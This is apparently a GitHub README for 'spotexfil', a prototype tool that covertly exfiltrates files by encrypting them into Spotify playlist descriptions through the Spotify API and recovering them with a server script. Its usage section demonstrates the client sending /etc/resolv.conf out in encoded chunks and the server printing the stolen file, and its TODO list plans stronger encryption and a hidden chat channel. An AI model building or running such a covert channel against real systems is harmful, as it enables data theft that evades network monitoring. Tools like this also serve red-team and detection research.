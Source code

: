 # spotexfil (status: MVP)
A simple attempt to exfiltrate data using spotify API, 300 bytes at a time.

We can read a mini file (payload) and encode it inside a playlist description field via Spotify API.
Really MVP/prototype, not meant for large files.

# Usage

Using /etc/resolv.conf as payload:

$ ./spotexfil_client.py -f /etc/resolv.conf
[*] Data cleared
"0614b19d74be941ac3a89fdcbc33d3ebc62cb996f574a1b3cb95867c1db90b87ca154ad38151a25e09d2b9429f66ad8d00afb005b1e257f89c27b030ca46ae3b6856574d3bc40476fd3c0703618f4ac4810dc59b7797dc1a873252de1017fd12205e99458eb0f40c4fa98db36cc972ec3c7f008541450e8269679fd6e54cf09ac432e002fdfb3be3ae85fa89373e0ad3c68af7bde50
	[*] Creating inpayloadwetrust0
b5118c7d5947d2f1a467069e3f2796b3859015741622226f58609dcee056954b42520dfeb8d09c1280fffb1e2c7178c3d46e0203b6284e14d08868e75bef729b939fee6e4edcd0e463f5b2797b40640eabf8940bfb8e82bde4bed531310b6e496066bad02a1a7bc4c854ef070a14166a6cd55f0c8f17c9c9ffaf79bef38c3dfaf6fd9d0ef1baf62589aad3c39bafd768cbe7ee48a10b
	[*] Creating inpayloadwetrust300
728a9be5127a45b5aa4b1a6f6cbd216f1e0ae80d843ad2f15a07ae721773eb529ea64963557196ba8bd29eca370ff3a8ae6d32f67251edb078619a4d97db332ccf432402a3a45b5675b82e6f8"
	[*] Creating inpayloadwetrust600
[*] Data encoded and sent

Receiving from a far:

$ ./spotexfil_server.py -r
#
# macOS Notice
#
# This file is not consulted for DNS hostname resolution, address
# resolution, or the DNS query routing mechanism used by most
# processes on this system.
#
# To view the DNS configuration used by this system, use:
#   scutil --dns
#
# SEE ALSO
#   dns-sd(1), scutil(8)
#
# This file is automatically generated.
#
domain nyc.rr.com
nameserver 172.16.0.1


# TODO
* move from XXTEA crappy easy crypto to asymmetric (working in separate branch)
* peer-review from a real Python developper would help :P
* build chat system, adding a realtime listener component into spotexfil_server.py

